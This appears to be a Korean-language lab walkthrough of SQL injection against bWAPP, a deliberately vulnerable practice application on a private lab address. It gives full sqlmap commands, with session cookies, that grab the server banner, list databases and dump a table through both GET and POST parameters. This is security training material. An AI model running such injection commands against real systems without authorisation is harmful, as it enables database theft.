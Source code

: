 ```bash
sqlmap -u "http://192.168.190.143/bWAPP/sqli_1.php?title=aaaaa&action=search" --banner -v 3 -p title --cookie="security_level=0; PHPSESSID=1b689371cf8562edd56a5c1af28510e5"
```

* --banner: banner를 보여주는 옵션
* -v: 진행을 자세히 보여주는 옵션
* -p: 파라미터 입력
* -cookie: 쿠키 값 입력
* 선택지 나오면 다 N

![image](https://user-images.githubusercontent.com/28076542/52032692-6650b280-2565-11e9-8bcf-7b051bc31ff4.png)

* 데이터 베이스 이름 가져오기

```bash
sqlmap -u "http://192.168.190.143/bWAPP/sqli_1.php?title=aaaaa&action=search" -v 3 -p title --cookie="security_level=0; PHPSESSID=1b689371cf8562edd56a5c1af28510e5" --dbs
```

![image](https://user-images.githubusercontent.com/28076542/52032769-c47d9580-2565-11e9-8cca-4dfb5e08e931.png)

* testdb의 testable1 테이블을 덤프하기

```bash
sqlmap -u "http://192.168.190.143/bWAPP/sqli_1.php?title=aaaaa&action=search" -v 3 -p title --cookie="security_level=0; PHPSESSID=1b689371cf8562edd56a5c1af28510e5" -D testdb -T testtable1 --dump
```

![image](https://user-images.githubusercontent.com/28076542/52032847-1cb49780-2566-11e9-926f-cef11a16c21e.png)

## SQL Injection (Post/Search)

![image](https://user-images.githubusercontent.com/28076542/52034398-b6327800-256b-11e9-9d91-a838c5ab753a.png)

![image](https://user-images.githubusercontent.com/28076542/52034428-c77b8480-256b-11e9-9915-144566060f09.png)

```bash
sqlmap -u "http://192.168.190.143/bWAPP/sqli_6.php" --data="title=aaaaa&action=search" -v 3 -p title --cookie="security_level=0; PHPSESSID=bf6e1b3cbaa2697436082ec34efd08a4" -D testdb -T testtable1 --dump
```

![image](https://user-images.githubusercontent.com/28076542/52034954-ca2aa980-256c-11e9-854b-419b55e24d24.png)

## sleep 함수 확인하기

* `ctrl+shift+f` 입력 후 sleep 검색

![image](https://user-images.githubusercontent.com/28076542/52035070-14ac2600-256d-11e9-9318-2e105f057ece.png)

* 데이터 베이스의 스레드를 잠을 재워 응답을 지연시키는 함수
* sqlmap에서 sleep 함수는 빼는 것이 좋음(방법은 모르겠음...)
